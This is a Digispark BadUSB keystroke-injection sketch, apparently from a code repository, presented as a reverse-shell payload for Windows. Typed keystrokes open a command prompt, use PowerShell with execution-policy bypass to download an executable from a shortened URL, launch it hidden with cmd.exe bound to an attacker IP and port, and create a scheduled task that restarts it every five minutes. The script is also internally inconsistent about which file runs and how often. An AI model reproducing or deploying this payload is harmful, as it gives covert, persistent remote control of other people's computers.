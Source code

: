 This payload is a reverse shell that runs in the background every 5 minutes. Replace [IP] with your listening IP and [PORT] with a port of your choice. (Ex. 25565).

(Payload runs only once)

  #include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cd / & mkdir System & cd System & echo (wget 'https://tinyurl.com/y88r9epk' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo START /MIN a.exe IP PORT -e cmd.exe -d ^& exit > start.bat");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo Set WshShell = CreateObject('WScript.Shell') > c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo Set WshShell = Nothing >>> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(75);
  DigiKeyboard.print("START /MIN a.exe [IP] [PORT] -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}
void loop() {
}